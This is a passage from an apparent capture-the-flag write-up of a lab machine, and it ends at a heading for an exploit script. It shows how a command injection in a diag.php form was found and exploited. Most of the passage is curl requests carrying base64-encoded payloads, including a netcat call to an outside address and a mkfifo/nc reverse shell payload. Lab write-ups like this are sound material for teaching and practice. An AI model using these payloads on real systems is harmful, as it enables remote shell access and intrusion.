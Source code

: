 #### Command Injection:

```console
curl -i -s -k  -X $'POST' \
    -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0' -H $'Referer: http://10.10.10.105/diag.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=cXVhZ2dh' \
    --data-binary $'check=| nc 10.10.13.255 1337' \
    $'http://10.10.10.105/diag.php'  
```

Which out the output of ps aux and also it was greping the quagga from it. so the command was like "ps aux | grep quagga". quagga was out base64 input from the post request and now we know that it is command injection.

payload:
`| whoami`

`base64-encode= YHwgd2hvYW1pYA==`

```console
curl -i -s -k  -X $'POST' \
    -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0' -H $'Referer: http://10.10.10.105/diag.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=civdj8h94df0kj1smcf948q7v6' \
    --data-binary $'check=fCBjYXQgdXNlci50eHQ=' \
    $'http://10.10.10.105/diag.php'     
```    
And the output was `root`. So, Confirmed its was the command injection.

@ http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/

reverse shell payload:
`payload: rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.15.176 21 > f`

Curl request to get reverse shell

```console
curl -i -s -k  -X $'POST' \
    -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0' -H $'Referer: http://10.10.10.105/diag.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=0lt8vqm3in2h456miodpsk4ok4' \
    --data-binary $'check=fCBybSBmO21rZmlmbyBmO2NhdCBmfC9iaW4vc2ggLWkgMj4mMXwvYmluL25jLm9wZW5ic2QgMTAuMTAuMTUuMjQ5IDE0NDcgPiBm' \
    $'http://10.10.10.105/diag.php'       

```

After exploring a site bit I realised, Its getting very hard to reproduce every step again and again to get reverse shell, So I code a reverse shell exploit.


### Reverse shell exploit:
